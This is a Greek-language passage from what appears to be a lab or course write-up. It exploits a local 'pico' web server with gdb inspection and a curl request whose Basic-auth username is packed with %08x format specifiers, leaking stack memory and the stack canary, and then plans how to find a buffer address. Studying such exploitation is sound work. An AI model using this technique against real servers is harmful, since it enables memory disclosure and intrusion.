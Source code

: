 Με βάση τον %ebp βρίσκουμε τη διεύθυνση του canary.

```

(gdb) p $ebp
$2 = (void *) 0xffffd698
(gdb) p $ebp - 12
$3 = (void *) 0xffffd68c
(gdb) x/4bx 0xffffd68c
0xffffd68c:     0x00    0x87    0xe0    0xd8
(gdb) 
```


Άρα το canary είναι το `0x00    0x87    0xe0    0xd8`

> Το γεγονός ότι το canary που βρήκαμε τελειώνει σε 00, αυξάνει τις πιθανότητες να έχουμε βρει το σωστό canary, διότι ένα έγκυρο canary τελειώνει σε 00.


#### Βήμα 2: Προσπαθούμε να φτάσουμε στο canary μέσω της vulnerble printf στο local pico build


Διαβάζοντας το pdf [1] καταλαβαίνουμε ότι εάν βάζουμε %x στην printf() χωρίς να υπάρχουν ανίστοιχα ορίσματα που να αντιστοιχούν στα %x, τότε η printf() θα εκτυπώνει τα περιεχόμενα που υπάρχουν ακριβώς πριν τη διεύθυνση του πρώτου ορίσματος της printf() που ειναι το Address Format String.

Για να πάρουμε τις διευθύνσεις πίσω απο την κλήση της printf, βάζουμε %x μέχρι να φτάσουμε στο canary που βρήκαμε στο προηγούμενο βήμα.
Με τη σωστή σειρά: `d8e08700`

```bash
curl -X POST \
    http://localhost:8000/check_secret.html  \
    -i \
    --user "%08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x :"
```

Αποτέλεσμα:
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Basic realm="Invalid user: 5790b310 0000009b 56561511 f7c18d80 00000000 578fb376 56564180 f7c18d80 00000000 5790b310 0000009c 00000000 00000001 5790b310 5790b3ab 5790b3ac 0000009b ffe5b268 f7ab0ff2 f7c18d80 00000000 00000000 00000000 f7ab0fd7 f7c16880 f7c18d80 d8e08700 f7c18d80 56563f04 ffe5b278 565610c2 "



#### Βήμα 3: Εύρεση διεύθυνσης του post_data buffer

O saved ebp, δηλαδή το περιεχόμενο του ebp της συνάρτησης check_auth

θα έχει σταθερή απόσταση από το post_data buffer address. Αυτό ισχύει διότι
ο saved ebp της check_auth() και ο saved_ebp της post_param() είναι ο ίδιος,
αφού καλούνται απο την ίδια συνάρτηση.

Άρα  [saved_ebp] - [post_data buffer address] = Σταθερά
